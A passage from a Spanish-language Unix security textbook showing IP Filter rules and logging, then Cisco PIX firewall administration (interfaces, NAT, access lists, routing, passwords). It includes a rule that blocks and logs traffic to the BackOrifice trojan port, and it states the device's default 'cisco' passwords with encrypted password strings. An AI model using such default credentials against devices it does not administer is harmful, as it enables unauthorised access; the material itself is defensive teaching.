es que la sintaxis del fichero de configuraci\'on es extremadamente sencilla:
al menos al nivel m\'as b\'asico, casi \'unicamente sabiendo ingl\'es podemos
deducir qu\'e hace cada regla, a diferencia de {\tt ipchains} o {\tt ipfilter} 
y sus opciones, que a decir verdad no son precisamente inmediatas\ldots\\
\\Una vez negado todo el tr\'afico que no habilitemos expl\'{\i}citamente ya
podemos comenzar a definir las reglas que acepten tramas; como en el anterior
ejemplo, imaginemos que deseamos permitir todo el tr\'afico {\it web} cuyo
destino sea la direcci\'on 158.42.22.41, as\'{\i} como los accesos {\sc ssh}
a esta misma IP desde la 158.42.2.1. Para conseguirlo, definiremos un par de
reglas similares a las siguientes:
\begin{quote}
\begin{verbatim}
# HTTP
pass in on elxl0 from any to 158.42.22.41 port = 80
# SSH
pass in on elxl0 from 158.42.2.1 to 158.42.22.41 port = 22
\end{verbatim}
\end{quote}
Podemos seguir viendo la facilidad para interpretar la sintaxis del archivo:
estamos permitiendo ({\tt `pass'}) el tr\'afico de entrada ({\tt `in'}) por
el interfaz {\tt elxl0} desde cualquier sitio ({\tt `from any'}, en el caso de
{\sc http}) o desde una direcci\'on concreta (en el caso de {\sc ssh}) a los 
puertos correspondientes de la m\'aquina destino ({\tt `to 158.42.22.41'}). Una
vez hecho esto -- realmente, las reglas que vamos a comentar a continuaci\'on 
deber\'{\i}amos ubicarlas antes que las reglas {\tt `pass'} en un sistema real,
pero a efectos de comprender la sintaxis de {\it IP Filter} esto es irrelevante
-- vamos a definir ciertas reglas para bloquear y detectar ataques, que
adem\'as nos van a servir para introducir la directiva {\tt `quick'}. Al igual
que hac\'{\i}amos sobre nuestro {\it firewall} Linux, vamos a bloquear el
tr\'afico dirigido a ciertos puertos sospechosos, como 31337 
({\it BackOrifice}), 79 ({\tt finger}) o 7 ({\tt echo}); adem\'as, nos
interesa bloquear tambi\'en el tr\'afico que entre por el interfaz externo 
(donde se supone que est\'a Internet) y provenga de redes que no est\'an 
pinchadas en este interfaz. En conseguir ambos objetivos, usaremos un conjunto 
de reglas similar al siguiente:
\begin{quote}
\begin{verbatim}
#####
## LOG de escaneos
#####
block in log quick on elxl0 from any to any port = 31337
block in log quick on elxl0 from any to any port = 79

#####
# Trafico que no deberia verse en la interfaz externa
#####
block in     quick on elxl0 from 192.168.0.0/16 to any
block in     quick on elxl0 from 172.16.0.0/12 to any
block in     quick on elxl0 from 10.0.0.0/8 to any
block in     quick on elxl0 from 127.0.0.0/8 to any
block in     quick on elxl0 from 0.0.0.0/8 to any
\end{verbatim}
\end{quote}
De nuevo, vemos que entender lo que hace cada regla es inmediato; lo que ahora
nos puede llamar la atenci\'on es, por un lado, la utilizaci\'on de la 
directiva {\tt `log'}, de la que hablaremos en el punto siguiente -- aunque no
hace falta ser muy listo para imaginar qu\'e hace -- y por otro, lo que vamos
a ver ahora, el uso de {\tt `quick'}: esta directiva provoca que la regla se
aplique inmediatamente y para el tr\'afico afectado el resto de reglas no se 
examine. De esta forma, con la pol\'{\i}tica definida hasta ahora, si no 
hubi\'eramos utilizado la directiva {\tt `quick'} para bloquear el acceso a 
nuestro puerto 79, siempre que se viera tr\'afico hacia este servicio se
analizar\'{\i}a el fichero completo, y como la \'ultima regla que hace {\it
match} es la que indica su bloqueo, las tramas se denegar\'{\i}an; al utilizar
{\tt `quick'}, en el momento que esta regla hace {\it match}, el tr\'afico se
deniega sin seguir examinando la pol\'{\i}tica, presentando as\'{\i} un 
comportamiento m\'as similar al de las reglas de otros {\it firewalls}.\\
\\Hasta ahora nos hemos limitado a crear o modificar el fichero donde definimos
la pol\'{\i}tica de {\it IP Filter}, pero esos cambios no van a tener efecto 
hasta que la m\'aquina se reinicie o hasta que obliguemos al {\it firewall} a
releer su archivo de configuraci\'on; para esto \'ultimo podemos invocar al
{\it shellscript} que carga el cortafuegos en el arranque de la m\'aquina 
pas\'andole el par\'ametro {\tt `reload'}, de la forma {\tt 
/etc/init.d/ipfboot reload}.
\subsection{El sistema de {\it log}}
Como cualquier sistema cortafuegos, {\it IP Filter} es capaz de generar 
registros cuando una determinada trama hace {\it match} con una regla que
as\'{\i} lo indica; la forma de indicarlo, como ya hemos adelantado en el
punto anterior, es mediante la directiva {\tt `log'}:
\begin{quote}
\begin{verbatim}
block in log quick on elxl0 from any to any port = 79
\end{verbatim}
\end{quote}
Esta regla bloquea ({\tt `block'}) de forma inmediata ({\tt `quick'}) el 
tr\'afico de entrada ({\tt `in'}) a trav\'es del interfaz {\tt elxl0}, desde
cualquier origen ({\tt `from any'}) a cualquier destino ({\tt `to any'}) y cuyo
puerto destino sea el 79 (correspondiente a {\tt finger}); mediante {\tt `log'}
hacemos que siempre que se haga {\it match} con ella esta regla genere un
registro, para lo cual se utiliza la utilidad {\tt ipmon}, inicializada en el
mismo {\it script} que hemos visto antes para cargar la pol\'{\i}tica de 
seguridad.\\
\\Por defecto, {\tt ipmon} registra eventos con tipo {\tt `local0'} y las
siguientes prioridades predeterminadas (\cite{kn:mcc00})
\begin{itemize}
\item {\tt info}: Paquetes que son s\'olo registrados, no aceptados o denegados.
\item {\tt notice}: Paquetes registrados en una regla {\tt `pass'}. 
\item {\tt warning}: Paquetes registrados en una regla {\tt `block'}. 
\item {\tt error}: Paquetes cortos que pueden evidenciar un ataque basado en
fragmentaci\'on de tramas IP.
\end{itemize}
Aunque este modelo suele ser m\'as que suficiente en la mayor\'{\i}a de
situaciones, si necesitamos un registro m\'as fino podemos especificar, 
mediante la directiva {\tt `level'}, el tipo y la prioridad con que deseamos que
una determinada regla registre las tramas que hacen {\it match} con ella; 
as\'{\i}, en el caso de la regla anterior, si queremos que cuando alguien trate
de acceder al servicio {\tt finger} de una m\'aquina el tr\'afico se bloquee y
adem\'as se registre un evento con tipo {\tt `auth'} y prioridad {\tt `alert'}
(en lugar de {\tt `local0'} y {\tt `warning'}, que ser\'{\i}an los que le
corresponder\'{\i}an por defecto), debemos reescribir la regla de una forma
similar a:
\begin{quote}
\begin{verbatim}
block in log level auth.alert quick on elxl0 from any to any port = 79
\end{verbatim}
\end{quote}
Cuando esta regla haga match, se generar\'a en el fichero correspondiente (no
debemos olvidarnos de pegarle un vistazo a nuestro {\tt /etc/syslogd.conf} para
ver d\'onde se van a registrar los mensajes) una entrada de esta forma:
\begin{quote}
\begin{verbatim}
anita:/# tail -1 /var/log/syslog
02:59:04 anita ipmon[7043]: [ID 702911 auth.alert] 02:59:04.700386 elxl0 \
@0:2 b 62.42.102.18,4897 -> 192.168.0.3,79 PR tcp len 20 48 -S IN
anita:/# 
\end{verbatim}
\end{quote}
Aparte de generar eventos a trav\'es de {\tt syslog}, la herramienta {\tt 
ipmon} permite monitorizar en tiempo real las tramas que generan registros 
mediante opciones como {\tt `-o'} o {\tt `-a'}, en l\'{\i}nea de comandos;
evidentemente esto es \'util para visualizar en una terminal el estado del {\it
log} en nuestro cortafuegos, por ejemplo para iniciar mecanismos de respuesta
autom\'atica ante un determinado evento; para obtener m\'as informaci\'on acerca
de esta herramienta, y del sistema de {\it log} de {\it IP Filter} en general,
podemos consultar la p\'agina de manual de {\tt ipmon(8)}.
\section{PIX Firewall}
\footnotetext{La secci\'on dedicada al cortafuegos PIX est\'a basada en un 
documento realizado por Juan Antonio Cebri\'an, Carlos Garc\'{\i}a y Antonio
Villal\'on, acerca de la implantaci\'on y gesti\'on de uno de estos {\it 
firewalls} dentro del proyecto InfoCentre (Generalitat Valenciana).}
\subsection{Introducci\'on}
PIX ({\it Private Internet eXchange}) es una de las soluciones de seguridad
ofrecidas por Cisco Systems; se trata de un {\it firewall} completamente {\it
hardware}: a diferencia de otros sistemas cortafuegos, PIX no se ejecuta en una
m\'aquina Unix, sino que incluye un sistema operativo empotrado denominado {\it
Finesse} que desde espacio de usuario se asemeja m\'as a un {\it router}
que a un sistema Unix cl\'asico. Por tanto, dado que la gesti\'on de este 
cortafuegos no es tan inmediata para un administrador de sistemas como la de 
uno que se ejecute sobre Unix, vamos a dedicarle m\'as tiempo al {\it PIX 
Firewall} de lo que hemos dedicado al resto de cortafuegos.\\
\\El cortafuegos PIX utiliza un algoritmo de protecci\'on denominado {\it 
Adaptive Security Algorithm} (ASA): a cualquier paquete {\it inbound} 
(generalmente, los provenientes de redes externas que tienen como origen una 
red protegida) se le aplica este algoritmo antes de dejarles atravesar el {\it 
firewall}, aparte de realizar comprobaciones contra la informaci\'on de estado 
de la conexi\'on (PIX es {\it stateful}) en memoria; para ello, a cada interfaz 
del {\it firewall} se le asigna un nivel de seguridad comprendido entre 0 (el 
interfaz menos seguro, externo) y 100 (el m\'as seguro, interno). La 
filosof\'{\i}a de funcionamiento del {\it Adaptive Security Algorithm} se basa 
en estas reglas:
\begin{itemize}
\item Ning\'un paquete puede atravesar el cortafuegos sin tener conexi\'on y 
estado.
\item Cualquier conexi\'on cuyo origen tiene un nivel de seguridad mayor que el 
destino ({\it outbound}) es permitida si no se proh\'{\i}be expl\'{\i}citamente 
mediante listas de acceso.
\item Cualquier conexi\'on que tiene como origen una interfaz o red de menor 
seguridad que su destino ({\it inbound}) es {\bf denegada}, si no se 
permite expl\'{\i}citamente mediante listas de acceso.
\item Los paquetes {\sc icmp} son detenidos a no ser que se habilite su 
tr\'afico expl\'{\i}citamente.
\item Cualquier intento de violaci\'on de las reglas anteriores es detenido, y 
un mensaje de alerta es enviado a {\it syslog}. 
\end{itemize}
Cuando a un interfaz del cortafuegos llega un paquete proveniente de una red 
con menor nivel de seguridad que su destino, el {\it firewall} le aplica el 
{\it adaptive security algorithm} para verificar que se trata de una trama 
v\'alida, y en caso de que lo sea comprobar si del {\it host} origen se ha 
establecido una conexi\'on con anterioridad; si no hab\'{\i}a una conexi\'on 
previa, el {\it firewall} PIX crea una nueva entrada en su tabla de estados en 
la que se incluyen los datos necesarios para identificar a la conexi\'on.\\
\\El cortafuegos PIX puede resultar muy complejo de gestionar, especialmente a
los que provenimos del mundo Unix, ya que como hemos dicho se asemeja m\'as a
un {\it router} que a un servidor con cualquier {\it flavour} de Unix; es por
tanto recomendable consultar bibliograf\'{\i}a adicional antes de trabajar con
estos equipos. Una buena referencia puede ser \cite{kn:cap01}, as\'{\i} como
la documentaci\'on sobre el producto que est\'a disponible a trav\'es de la
{\it web} de Cisco Systems ({\tt http://www.cisco.com/}).
\subsection{La primera sesi\'on con PIX {\it Firewall}} 
Si conectamos al {\it firewall} por consola a trav\'es de una l\'{\i}nea serie
entramos directamente sin necesidad de contrase\~na, en modo no privilegiado; 
esto lo sabemos porque nos aparece el {\it prompt} siguiente:
\begin{quote}
\begin{verbatim}
pixie>
\end{verbatim}
\end{quote}
Si en este {\it prompt} tecleamos la orden {\bf `?'}, nos mostrar\'a la ayuda 
disponible en el modo sin privilegios:
\begin{quote}
\begin{verbatim}
dixie> ?
enable          Enter privileged mode or change privileged mode password
pager           Control page length for pagination
quit            Disable, end configuration or logout
dixie>
\end{verbatim}
\end{quote}
Son pocos comandos con los que apenas se puede hacer nada; la orden {\bf pager} 
nos permite ajustar el n\'umero de l\'{\i}neas para paginar, la orden {\bf 
quit} (o {\bf exit}) sale del {\it firewall}, y la orden {\bf enable} nos pasa 
a modo superusuario, pidiendo la contrase\~na (que por defecto ser\'a {\tt 
`cisco'}); cada orden del PIX se puede abreviar (por ejemplo, en lugar de {\tt 
enable} podr\'{\i}amos teclear {\tt ena}):
\begin{quote}
\begin{verbatim}
dixie> ena
Password: *****
dixie#
\end{verbatim}
\end{quote}
Como vemos, al estar en modo privilegiado, el {\it prompt} cambia y nos muestra 
una almohadilla; en este modo ya podemos reconfigurar par\'ametros del PIX, y 
tenemos m\'as \'ordenes disponibles que antes:
\begin{verbatim}
dixie# ?
arp             Change or view the arp table, and set the arp timeout value
auth-prompt     Customize authentication challenge, reject or acceptance prompt
configure       Configure from terminal, floppy, or memory, clear configure
copy            Copy image from TFTP server into flash.
debug           Debug packets or ICMP tracings through the PIX Firewall.
disable         Exit from privileged mode
enable          Modify enable password
flashfs         Show or destroy filesystem information
kill            Terminate a telnet session
pager           Control page length for pagination
passwd          Change Telnet console access password
ping            Test connectivity from specified interface to <ip>
quit            Disable, end configuration or logout
reload          Halt and reload system
session         Access an internal AccessPro router console
terminal        Set terminal line parameters
who             Show active administration sessions on PIX
write           Write config to net, flash, floppy, or terminal, or erase flash
dixie#
\end{verbatim}
Para comenzar a reconfigurar el {\it firewall} nos pondremos en modo 
configuraci\'on (desde modo privilegiado) con la orden {\bf configure} (la `t' 
corresponde a {\tt Terminal}); de nuevo, cambia el {\it prompt} que nos aparece 
en consola:
\begin{quote}
\begin{verbatim}
dixie# con t
dixie(config)#
\end{verbatim}
\end{quote}
En este modo disponemos de m\'as comandos para configurar el PIX; como siempre, 
podemos verlos con la orden {\tt `?'}:
\begin{verbatim}
dixie(config)# ?
aaa             Enable, disable, or view TACACS+ or RADIUS
                user authentication, authorization and accounting
access-group    Bind an access-list to an interface to filter inbound traffic
access-list     Add an access list
age             This command is deprecated. See ipsec, isakmp, map, ca commands
alias           Administer overlapping addresses with dual NAT.
apply           Apply outbound lists to source or destination IP addresses
arp             Change or view the arp table, and set the arp timeout value
auth-prompt     Customize authentication challenge, reject or acceptance prompt
aaa-server      Define AAA Server group
ca              CEP (Certificate Enrollment Protocol)
        Create and enroll RSA key pairs into a PKI (Public Key Infrastructure).
clock           Show and set the date and time of PIX
conduit         Add conduit access to higher security level network or ICMP
crypto          Configure IPsec, IKE, and CA
configure       Configure from terminal, floppy, or memory, clear configure
copy            Copy image from TFTP server into flash.
debug           Debug packets or ICMP tracings through the PIX Firewall.
disable         Exit from privileged mode
domain-name     Change domain name
dynamic-map     Specify a dynamic crypto map template
enable          Modify enable password
established     Allow inbound connections based on established connections
failover        Enable/disable PIX failover feature to a standby PIX
filter          Enable, disable, or view URL, Java, and ActiveX filtering
fixup           Add or delete PIX service and feature defaults
flashfs         Show or destroy filesystem information
ipsec           Configure IPSEC policy
isakmp          Configure ISAKMP policy
global          Specify, delete or view global address pools,
                or designate a PAT(Port Address Translated) address
hostname        Change host name
vpdn            Configure VPDN (PPTP) Policy
interface       Identify network interface type, speed duplex, and if shutdown
ip              Set ip address for specified interface,
                define a local address pool, or
                toggle Unicast Reverse Path Forwarding on an interface.
kill            Terminate a telnet session
link            This command is deprecated. See ipsec, isakmp, map, ca commands
linkpath        This command is deprecated. See ipsec, isakmp, map, ca commands
logging         Enable logging facility
map             Configure IPsec crypto map
mtu             Specify MTU(Maximum Transmission Unit) for an interface
name            Associate a name with an IP address
nameif          Assign a name to an interface
names           Enable, disable or display IP address to name conversion
nat             Associate a network with a pool of global IP addresses
outbound        Create an outbound access list
pager           Control page length for pagination
passwd          Change Telnet console access password
ping            Test connectivity from specified interface to <ip>
quit            Disable, end configuration or logout
radius-server   Specify a RADIUS aaa server
reload          Halt and reload system
rip             Broadcast default route or passive RIP
route           Enter a static route for an interface
session         Access an internal AccessPro router console
snmp-server     Provide SNMP and event information
sysopt          Set system functional option
static          Map a higher security level host address to global address
tacacs-server   Specify a TACACS+ server
telnet          Add telnet access to PIX console and set idle timeout
terminal        Set terminal line parameters
tftp-server     Specify default TFTP server address and directory
timeout         Set the maximum idle times
url-cache       Enable URL caching
url-server      Specify a URL filter server
virtual         Set address for authentication virtual servers
who             Show active administration sessions on PIX
write           Write config to net, flash, floppy, or terminal, or erase flash
dixie(config)#
\end{verbatim}
\subsection{Interfaces de red}
Cisco denomina a cada uno de sus interfaces {\it hardware} de la forma {\tt 
ethernetN} o {\tt token-ringN}. Desde el modo configuraci\'on podemos 
asignarles nombres simb\'olicos y niveles de seguridad, teniendo en cuenta que 
el nombre {\bf outside} se asigna por defecto a la tarjeta {\tt ethernet0} y el 
nombre {\bf inside} a la {\tt ethernet1}. Adem\'as, el nivel de seguridad de la 
interfaz {\tt outside} ha de ser el m\'as bajo, 0, y el reservado para {\tt 
inside} el m\'as elevado, 100; el resto de tarjetas pueden tener cualquier 
n\'umero comprendido entre los dos anteriores.\\
\\Si queremos asignarle un nombre simb\'olico y un nivel de seguridad a un 
interfaz hemos de utilizar la orden {\bf nameif}; por ejemplo, para denominar 
{\tt dmz} a la tarjeta {\tt ethernet2}, y darle un nivel 50, ejecutar\'{\i}amos 
lo siguiente\footnote{El par\'ametro {\tt e2} es una abreviatura para {\tt 
ethernet2}, que tambi\'en podr\'{\i}a abreviarse como ether2.}:
\begin{quote}
\begin{verbatim}
dixie(config)# nameif e2 dmz security50
dixie(config)# 
\end{verbatim}
\end{quote}
Es {\bf muy importante} que exista una interfaza llamada {\tt outside} con un 
nivel 0 y una {\tt inside} con un nivel 100; si alguna de las dos no existe, o 
si est\'a duplicada, el cortafuegos {\bf parar\'a todo el tr\'afico que pase 
por \'el}. Podemos ver si la configuraci\'on actual de las interfaces es 
correcta mediante la orden {\bf show nameif}:
\begin{quote}
\begin{verbatim}
dixie(config)# show nameif
nameif ethernet0 outside security0
nameif ethernet1 inside security100
nameif ethernet2 dmz security50
nameif ethernet3 intf3 security15
dixie(config)# 
\end{verbatim}
\end{quote}
\subsection{Accesos entre interfaces}
Para conseguir excepciones a las reglas de funcionamiento del {\it adaptive 
security algorithm} se utilizan los comandos {\bf nat} y {\bf static}; la 
orden {\tt nat} permite que una interfaz de mayor seguridad pueda acceder a uno 
de menor, mientras que {\tt static} hace justo lo contrario.\\
\\Para cada interfaz de mayor nivel de seguridad que quiera acceder a una de
menor nivel hemos de ejecutar la orden {\tt nat}:
\begin{quote}
\begin{verbatim}
dixie(config)# nat (dmz) 0 0.0.0.0 0.0.0.0
dixie(config)# sh nat
nat (dmz) 0 0.0.0.0 0.0.0.0 0 0
pixie(config)# 
\end{verbatim}
\end{quote}
La orden anterior indica que el interfaz {\tt dmz} acceder\'a sin realizar
{\sc nat} (el primer {\tt `0'}), aplicando esto a todas las m\'aquinas de la
subred conectada a ese interfaz: los dos grupos {\tt `0.0.0.0'} representan la
direcci\'on y la subred, respectivamente, de los equipos a los que permitimos
la salida; si s\'olo quisi\'eramos que una de las m\'aquinas conectada al
interfaz {\tt dmz} accediera a segmentos de menor prioridad, pondr\'{\i}amos
su direcci\'on {\sc ip} y su m\'ascara ({\tt 255.255.255.255}).\\
\\Si lo que queremos es permitir el acceso desde un interfaz de menor nivel de
seguridad a uno de mayor ejecutaremos la orden {\tt static}, que tiene la 
sintaxis siguiente:
\begin{center}
{\tt static} (if$\_$interna,if$\_$externa) dir$\_$destino dir$\_$destino {\tt 
netmask} mascara
\end{center}
El hecho de que aparezca por duplicado la direcci\'on destino de la m\'aquina
que estamos `publicando' al exterior es porque, al ejecutar la orden {\tt nat},
hemos decidido no hacer {\sc nat} real; si lo estuvi\'eramos haciendo, en lugar
de la direcci\'on destino utilizar\'{\i}amos en primer lugar la direcci\'on
que le damos a la m\'aquina hacia el exterior (t\'{\i}picamente, una {\sc ip}
p\'ublica) y en segundo la direcci\'on que tiene el equipo dentro de la red a
la que est\'a directamente conectado (una privada).\\
\\De esta forma, si lo que queremos es que desde toda Internet (interfaz {\tt
outside}) se pueda acceder a nuestro servidor de correo {\sc pop3}, en la 
m\'aquina 158.42.22.41 (por ejemplo, dentro del interfaz {\tt dmz}), 
ejecutar\'{\i}amos en primer lugar la siguiente orden:
\begin{quote}
\begin{verbatim}
dixie(config)# static (dmz,outside) 158.42.22.41 158.42.22.41
                      netmask 255.255.255.255
dixie(config)# sh static 
static (dmz,outside) 158.42.22.41 158.42.22.41 netmask 255.255.255.255 0 0
dixie(config)#
\end{verbatim}
\end{quote}
Con el comando anterior nos limitamos a `publicar' la direcci\'on de una 
m\'aquina protegida por el PIX {\it firewall} al resto de Internet; pero esto
no significa que ya se pueda acceder a ese sistema: tras la orden {\tt static},
es necesario habilitar listas de control de acceso a los diferentes servicios de
la direcci\'on que hemos publicado, y asociar dichas listas de control a la
interfaz correspondiente; si por ejemplo el acceso necesitado es {\sc smtp}, 
ejecutar\'{\i}amos la siguiente orden:
\begin{quote}
\begin{verbatim}
dixie(config)# access-list prueba permit tcp any host 158.42.22.41
                      eq smtp
dixie(config)# access-group prueba in interface outside
dixie(config)#
\end{verbatim}
\end{quote}
Como vemos, asociamos la lista de control a la interfaz de {\bf entrada} del
tr\'afico, {\bf no} a la que est\'a conectada la m\'aquina. El tema de las 
listas de control de acceso es el que vamos a ver en el punto siguiente.
\subsection{Listas de control de acceso}
Como acabamos de decir, para acceder a determinados servicios de una m\'aquina,
una vez hemos dejado establecer las conexiones entre interfaces, es necesario
definir permisos sobre el modo de acceso, el origen y los servicios a los que 
se permite acceder de esa m\'aquina; esto lo conseguiremos mediante la orden
{\bf access-list}, cuya sintaxis es la siguiente:
\begin{center}
access-list ID accion proto dir-origen pto-origen dir-destino pto-destino
\end{center}
Si por ejemplo queremos habilitar un acceso {\sc http} desde cualquier lugar de 
Internet, y adem\'as acceso {\sc pop3} desde un determinado segmento externo
(por ejemplo, 196.33.22.128/25) a la m\'aquina 158.42.22.41, lo 
haremos mediante una lista de control de dos entradas (que llamaremos {\tt 
prova}), que podemos crear con las siguientes \'ordenes:
\begin{quote}
\begin{verbatim}
pixie(config)# access-list prova permit tcp any host 158.42.22.41 eq http
pixie(config)# access-list prova permit tcp 196.33.22.128 255.255.255.128 
               host 158.42.22.41 eq http
pixie(config)# 
\end{verbatim}
\end{quote}
Dentro de una lista de control es importante asegurarse que la regla m\'as
general es {\bf siempre} la \'ultima; PIX funciona en este sentido como {\it
Firewall--1}: en el momento en que una determinada regla hace {\it match}, se
aplica y no se sigue analizando el resto. Por ejemplo, si queremos que 
ning\'un equipo del exterior haga {\it ping} a la m\'aquina 158.42.22.41, 
excepto los que provienen de la red 196.72.31.0/24, definiremos la siguiente
lista de control de acceso:
\begin{quote}
\begin{verbatim}
pixie(config)# access-list prova permit icmp 196.72.31.0 255.255.255.0 host 
               158.42.22.41
pixie(config)# access-list prova deny icmp any any
pixie(config)# 
\end{verbatim}
\end{quote}
Con las \'ordenes anteriores no hacemos m\'as que definir (o modificar, si ya
exist\'{\i}a) la ACL {\tt `prova'}; esto no tiene ning\'un efecto sobre el 
funcionamiento del cortafuegos, ya que para que lo tenga tenemos que asociar 
esta lista a una interfaz de red: en concreto, a aquella de la que va a 
provenir el tr\'afico de entrada en cada caso. Para ello, utilizaremos la orden
{\bf access-group}:
\begin{quote}
\begin{verbatim}
pixie(config)# access-group prova in interface outside
pixie(config)# 
\end{verbatim}
\end{quote}
Con este comando asociamos la lista de control a la interfaz especificada; si 
esta interfaz ya ten\'{\i}a asociada una lista de control, la nueva reemplaza a
la antigua pero las conexiones {\bf no se pierden}, ni siquiera las que estaban
permitidas anteriormente pero ahora se niegan. Esto es \'util para poder 
a\~nadir entradas intermedias a las listas de control sin que las conexiones 
establecidas por el interfaz
al que queremos asociarlas se pierdan: para ello, lo m\'as r\'apido es copiar
la lista en un editor de textos, realizar sobre el mismo las modificaciones 
necesarias, y grabarla de nuevo en el cortafuegos {\bf con otro nombre}; tras
esto, la asociamos al interfaz correspondiente mediante {\tt access-group}, y
cuando estemos seguros de que todo funciona correctamente la grabamos en memoria
mediante {\tt write mem}.\\
\\Si lo que queremos es a\~nadir una entrada al final de la lista de control
no es necesario todo esto: basta con ejecutar el {\tt access-list} 
correspondiente para que la nueva entrada se a\~nada a la lista, y 
autom\'aticamente se aplique sobre el interfaz; si no queremos a\~nadir, sino
eliminar entradas de una ACL, podemos ejecutar directamente {\tt no 
access-list}, orden que recibe como par\'ametro la entrada a eliminar:
\begin{quote}
\begin{verbatim}
pixie(config)# sh access-list prova
access-list prova permit tcp any host 158.42.22.41 eq smtp (hitcnt=0) 
access-list prova permit tcp any host 158.42.22.41 eq pop3 (hitcnt=0) 
access-list prova permit tcp any host 158.42.22.41 eq telnet (hitcnt=0) 
pixie(config)# no access-list prova permit tcp any host 158.42.22.41 eq pop3
pixie(config)# sh access-list prova
access-list prova permit tcp any host 158.42.22.41 eq smtp (hitcnt=0) 
access-list prova permit tcp any host 158.42.22.41 eq telnet (hitcnt=0) 
pixie(config)# 
\end{verbatim}
\end{quote}
Como siempre, una vez que estemos seguros de que la configuraci\'on es correcta,
ser\'a necesario grabar los cambios en memoria {\it flash} mediante {\tt write
mem}.
\subsection{Rutado}
En el cortafuegos PIX es necesario especificar mediante rutas est\'aticas 
c\'omo vamos a encaminar los paquetes que nos llegan, a\~nadiendo una ruta para 
cada red conectada a un interfaz; s\'olo podremos asignar una ruta por defecto,
asociada siempre al interfaz {\tt outside}.\\
\\Para ver las rutas del {\it firewall} utilizaremos la orden {\bf sh route}:
\begin{quote}
\begin{verbatim}
pixie(config)# sh route
        outside 0.0.0.0 0.0.0.0 172.17.1.3 1 OTHER static
        inside 172.17.2.0 255.255.255.0 172.17.2.1 1 CONNECT static
        dmz 192.168.63.0 255.255.255.0 192.168.63.156 1 CONNECT static
        failover 192.168.87.208 255.255.255.252 192.168.87.209 1 CONNECT 
                 static
        dmz 158.42.0.0 255.255.0.0 192.168.63.156 1 OTHER static
pixie(config)# 
\end{verbatim}
\end{quote}
Como vemos, la ruta por defecto est\'a asociada a la interfaz {\tt outside};
adem\'as, la interfaz {\tt dmz} tiene dos rutas, una para una clase p\'ublica y
otra para una privada, y tambi\'en existe una boca del {\it firewall} dedicada
en exclusiva al {\it failover}, del que hablaremos m\'as adelante.\\
\\Si lo que queremos es modificar cualquiera de estas rutas, a\~nadir rutas
nuevas, o eliminar alguna de ellas, ejecutaremos la orden {\bf route}, cuya
sintaxis es la siguiente:
\begin{center}
route interfaz direccion-remota mascara gateway metrica
\end{center}
Por ejemplo, si deseamos enrutar el tr\'afico dirigido a la red 
192.168.63.128/25 a trav\'es del interfaz {\tt dmz}, que tiene como direcci\'on
IP 192.168.63.156, y que est\'a directamente conectado a la red (un salto), 
ejecutar\'{\i}amos esta orden:
\begin{quote}
\begin{verbatim}
pixie(config)# route dmz 192.168.63.128 255.255.255.128 192.168.63.156 1
pixie(config)# 
\end{verbatim}
\end{quote}
Para eliminar una ruta, ejecutaremos el comando {\bf no route}, que recibe como
par\'ametro la ruta que deseamos eliminar (algo similar a lo que suced\'{\i}a 
con las listas de control de acceso).
\subsection{Otras \'ordenes \'utiles}
\subsubsection{Arranque y parada del cortafuegos}
La orden {\bf reload} (modo privilegiado) reinicia el {\it firewall} y carga su configuraci\'on, bien desde {\it diskette} bien
desde la memoria {\it flash} (en caso de que no haya ning\'un disco en la unidad). Al ejecutar {\tt reload} se nos pedir\'a
confirmaci\'on para reiniciar el cortafuegos, y es {\bf muy importante} que en caso de no querer ejecutar el comando tecleemos {\bf 
`n'}; cualquier otra respuesta ejecuta la orden.
\subsubsection{Configuraciones del sistema}
\par{$\bullet$ {\it Nombre de la m\'aquina}}\\
Mediante la orden {\bf hostname} cambiamos el nombre de {\it host} del 
cortafuegos:
\begin{quote}
\begin{verbatim}
dixie(config)# hostname pixie
pixie(config)# hostname dixie
dixie(config)#
\end{verbatim}
\end{quote}
\par{$\bullet$ {\it Contrase\~nas}}\\
En modo configuraci\'on podemos cambiar la contrase\~na de acceso al modo privilegiado mediante la orden {\bf enable password};
mediante {\bf show enable} vemos la cadena cifrada con nuestra contrase\~na:
\begin{quote}
\begin{verbatim}
dixie(config)# show enable
enable password /hVDnFhQPQc4lzN5 encrypted
dixie(config)# enable password passprova
dixie(config)# show enable
enable password S6KVLr8BjSKx8os/ encrypted
dixie(config)#
\end{verbatim}
\end{quote}
Esta clave es diferente de la que se utiliza para acceder al cortafuegos v\'{\i}a {\it telnet}; para modificar esta \'ultima (por
defecto ser\'a {\tt `cisco'}) utilizaremos la orden {\bf passwd}, y para visualizar la cadena cifrada resultante {\bf show passwd}:
\begin{quote}
\begin{verbatim}
dixie(config)# show passwd
passwd 2KFQnbNIdI.2KYOU encrypted
dixie(config)# passwd prova
dixie(config)# show passwd
passwd /hVDnFhQPQc4lzN5 encrypted
dixie(config)#
\end{verbatim}
\end{quote}
Si quisi\'eramos restaurar esta contrase\~na a su valor original ({\tt 
`cisco'}), no tenemos m\'as que ejecutar la orden {\bf clear passwd}:
\begin{quote}
\begin{verbatim}
dixie(config)# show passwd
passwd /hVDnFhQPQc4lzN5 encrypted
dixie(config)# clear passwd
dixie(config)# show passwd
passwd 2KFQnbNIdI.2KYOU encrypted
dixie(config)#
\end{verbatim}
\end{quote}
La cadena {\tt `encrypted'} que aparece tras la contrase\~na indica que se trata de una clave cifrada; tambi\'en nos puede resultar
\'util para asignar un {\it password} directamente en cifrado, en lugar de hacerlo en texto claro:
\begin{quote}
\begin{verbatim}
dixie(config)# show passwd
passwd 2KFQnbNIdI.2KYOU encrypted
dixie(config)# passwd /hVDnFhQPQc4lzN5 encrypted
dixie(config)# show passwd
passwd /hVDnFhQPQc4lzN5 encrypted
dixie(config)# show enable password
enable password 2KFQnbNIdI.2KYOU encrypted
dixie(config)# enable password  /hVDnFhQPQc4lzN5 encrypted
dixie(config)# show enable password
enable password /hVDnFhQPQc4lzN5 encrypted
dixie(config)#
\end{verbatim}
\end{quote}
En caso de {\bf p\'erdida de la clave de acceso v\'{\i}a telnet}, no tenemos
m\'as que conectar al cortafuegos mediante una conexi\'on serie y, desde el
modo privilegiado asignar una nueva contrase\~na; si lo que hemos {\bf perdido} 
es la {\bf clave para situar al cortafuegos en modo privilegiado}, el proceso 
es algo m\'as complicado: en este caso debemos descargar la utilidad {\it PIX 
Password Lockout Utility} apropiada para nuestra versi\'on de {\it firewall} 
(que podemos ver con {\tt sh version}), desde la direcci\'on
\begin{center}
{\tt http://www.cisco.com/warp/public/110/34.shtml}
\end{center}
Se trata de un fichero {\tt `.bin'} que podemos transferir a un disquette 
mediante la orden {\tt dd}:
\begin{quote}
\begin{verbatim}
anita:~$ dd if=np51.bin of=/dev/fd0
144+0 records in
144+0 records out
